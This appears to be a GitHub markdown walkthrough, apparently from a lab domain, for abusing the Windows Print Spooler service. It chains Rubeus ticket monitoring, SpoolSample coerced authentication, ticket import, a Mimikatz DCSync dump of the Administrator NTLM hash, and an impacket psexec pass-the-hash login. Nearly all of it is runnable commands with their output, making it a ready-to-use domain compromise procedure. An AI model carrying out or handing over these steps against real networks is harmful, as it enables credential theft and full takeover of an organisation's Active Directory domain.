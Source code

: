 # Abusing Spools Service using Rubeus, SpoolSample and Mimikatz.

1. Enumerate if the spoolss share is running and accessible.

```PowerShell
PS C:\Users\Public> dir \\SERVER01\pipe\spoolss
dir \\SERVER01\pipe\spoolss


    Directory: \\SERVER01\pipe


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
                                                 spoolss
```

2. Upload and run Rubeus on the target to monitor the connections on the RDP.

```cmd
C:\Users\Public>.\Rubeus.exe monitor /interval:5 /filteruser:SERVER01$
```

3. While Rubeus is monitoring, switch to a NT Authority System session and run SpoolSample to force the connection.

```cmd
C:\Users\Public>SpoolSample.exe SERVER01.sinhack.com SERVER02.sinhack.com
```

4. Rubeus should have retrieved the KRBTG TGT. Copy the base64 TGT and import it through Rubeus on a NT Authority System Session.

```cmd
C:\Users\Public>Rubeus.exe ptt /ticket:<base64>

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.3 


[*] Action: Import Ticket
[+] Ticket successfully imported!
```

5. Run klist to verify that the ticket has been imported successfully.

```cmd
C:\Users\Public>klist
klist

Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>     Client: SERVER01$ @ SINHACK.COM
        Server: krbtgt/SINHACK.COM @ SINHACK.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
        Start Time: 5/17/2021 9:20:59 (local)
        End Time:   5/17/2021 19:20:59 (local)
        Renew Time: 5/24/2021 9:20:59 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY 
        Kdc Called: 
```

6. Now that the KRBTGT ticket of SINHACK.COM domain is imported, we are able to dump DCSYNC to get NTLM Hashes. Example with Administrator hash.

```cmd
C:\Users\Public\mimikatz_trunk\x64>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 12 2021 23:10:18
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /sinhack.com /user:Administrator
```

7. Using psexec from impacket, login the desired target.

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@server01.sinhack.com -hashes "aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx" -target-ip 192.168.x.x
```